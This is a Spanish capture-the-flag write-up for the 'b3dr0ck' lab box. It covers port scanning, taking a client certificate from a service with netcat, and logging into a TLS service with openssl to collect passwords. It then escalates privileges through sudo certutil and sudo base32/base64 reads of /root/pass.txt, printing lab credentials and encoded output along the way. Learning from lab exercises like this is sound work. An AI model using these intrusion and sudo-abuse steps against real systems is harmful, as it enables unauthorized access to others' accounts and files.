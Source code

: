 
# INTRODUCCION
Algunos servidores (ahora la mayoria) requieren que la comunicacion con el cliente se realice de forma segura, es decir que los datos vayan encriptados y
que el cliente o el servidor o ambos se autentifiquen mediante un certificado. En el certificado va incluida la clave publica del cliente, de forma que
el servidor utiliza esta clave para encriptar los datos y enviarselos encriptados al cliente, el cual los desencripta utilizando la clave privada que ha sido generada junto al certificado
# SCAN

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
4040/tcp  open  yo-main
9009/tcp  open  pichat
54321/tcp open  unknown
```
Tenemos los  siguiente:
1. En el puerto 80 corre un servidor nginx que nos redirige al puerto 4040 
2. En el puerto 4040 hay un webserver TSL
3. Hay un servidor que requiere conexion TSL, es decir con certificado 54321
4. El servidor localizado en el puerto 9009 emite los certificados

# PUERTO 9009

Utilizando netcat podemos conectar con el puerto 9009 donde obtenemos el certificado

> $ nc bedrock.thm 9009
Obtenemos la clave privada y la clave publica (certificado)

# 54321

En este puerto hay un servidor TSL y por tanto debemos acreditarnos mediante nuestra clave publica (certificado) y nuestra clave privada
Para acceder al servidor utilizamos openssl:
> $ openssl s_client -connect bedrock.thm:54321 -cert <clave-publica> -key <clave-privada>
  Esto nos da acceso a un CLI y con el comando:
  - user: obtenemos el username: 'Barney Rubble'
  - password: obtenemos el password: d1ad7c0a3805955a35eb260dab4180dd
  
# SSH
Con las anteriores credenciales intento logearme en ssh pero el password no me sirve ¿Estará codificado?
Pues no, se trata del password en plain text. El problema es que el usuario no es 'Barney Rubble' si no barney. Asi si puedo
> $ ssh barney@bedrock.thm

  ## privilege escalation
  vemos que barney puede ejecutar el comando /usr/bin/certutil con sudo
 ```
  barney@b3dr0ck:/etc$ sudo -l                                                                                                                                 
Matching Defaults entries for barney on b3dr0ck:                                                                                                             
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                               
                                                                                                                                                             
User barney may run the following commands on b3dr0ck:                                                                                                       
  (ALL : ALL) /usr/bin/certutil 
 ```
 Entonces podemos utilizar este comando para crear una nueva clave publica y privada para Fred Flinstone:
 > sudo /usr/bin/certutil fred  'Fred Flintstone"
 Con esto podemos otra vez conectar con el servidor en el puerto 54321
 e igual que hicimos antes conseguir el user y el password de Fred:
 user: fred
 pass: YabbaDabbaD0000!
 
 # FRED
 ## privilege escalation
 Descubrimos que Fred puede ejecutar con sudo:
 ```
  fred@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt

 ```
 con lo cual obtenemos:
 base32: JRDEWRKDGUZFUS2SINMFGV2LLBEVUVSVGQZUWSSHJZGVQVKSJJJUYRSXKZJTKMSPKBFECWCVKRGE
4SSKKZKTEUSDK5HEER2YKVJFITCKLJFUMU2TLFFQU===
 base64: TEZLRUM1MlpLUkNYU1dLWElaVlU0M0tKR05NWFVSSlNMRldWUzUyT1BKQVhVVExOSkpWVTJSQ1dO
QkdYVVJUTEpaS0ZTU1lLCg==
